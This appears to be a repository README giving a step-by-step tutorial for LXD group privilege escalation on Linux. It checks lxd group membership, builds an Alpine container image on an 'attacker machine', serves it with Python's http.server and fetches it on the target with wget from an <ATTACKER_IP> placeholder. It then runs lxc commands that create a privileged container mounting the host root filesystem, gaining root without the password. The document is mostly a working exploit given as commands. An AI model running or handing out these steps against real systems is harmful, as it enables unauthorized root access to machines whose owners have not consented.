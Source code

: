 <h2>1. Check your target machine vulnerability</h2>

Once you connect to your target via SSH, you need to run the ID command to see if the machine is vulnerable  
to this LXD Privilege Escalation exploit (current user must be a member of lxd group).

As we can see in the screenshot below, user John is the member of lxd group, which means that the machine is vulnerable.    
  
![LXD group](https://i.imgur.com/r8oFRyo.png)

<br>
    
<h2>2. Prepare a linux container image</h2>

THIS STEP SHOULD BE DONE ON THE ATTACKER MACHINE

<br>

To prepare the linux container, you should firstly download lxd-alpine-builder through the git repository:
> git clone https://github.com/saghul/lxd-alpine-builder.git

Go into the newly made (cloned from github) directory called lxd-alpine-builder and build the Alpine image using the following command:
> sudo ./build-alpine

If the script successfully executed, it would make an file in the tar.gz format that contains the Alpine linux container.

<br>

<h2>3. Sending the Alpine linux container to the target</h2>

Now, you need to find a way to send the previously made Alpine linux container (tar.gz file with a big name) to the target machine.

For example, one way would be to make a http server in the lxd-alpine-builder directory and download the tar.gz file from it.
It can be done very easily using the pythons built-in function http.server (run the following command on your attacker machine):
> python3 -m http.server

Next, you need to download the tar.gz file, on the target machine, from the http server. You can do that via the browser, but I like to do it
via the tool called wget (run the following command on your target machine):
> wget <ATTACKER_IP>:8000/<CONTAINER_NAME>.tar.gz

where <ATTACKER_IP> is the ip of the attacker machine and  <CONTAINER_NAME> is the name of the Alpine linux container   
(for example, alpine-v3.10-x86_64-20191008_1227).

<br>

<h2>4. Configuring the container on the target machine</h2>

And finally, we need to actually "exploit" this.
For gaining root privileges we need to import the previously downloaded container into lxc.   
<br>
After that, we need to give the container privileges, add the root directory as a mount point, and start the container.
To do all this, run following commands on the target machine:
> lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage  
> lxc init myimage ignite -c security.privileged=true  
> lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true  
> lxc start ignite  
> lxc exec ignite /bin/sh  

If everything succeded, we should get a bash shell in which we can do the following to actually get to the root directories  
of the target machine:
> cd /mnt/root

<br>
<hr>

And BOOM, we have successfully gained control of the root account, without actually knowing the root password  
(aka. successful privilege escalation)

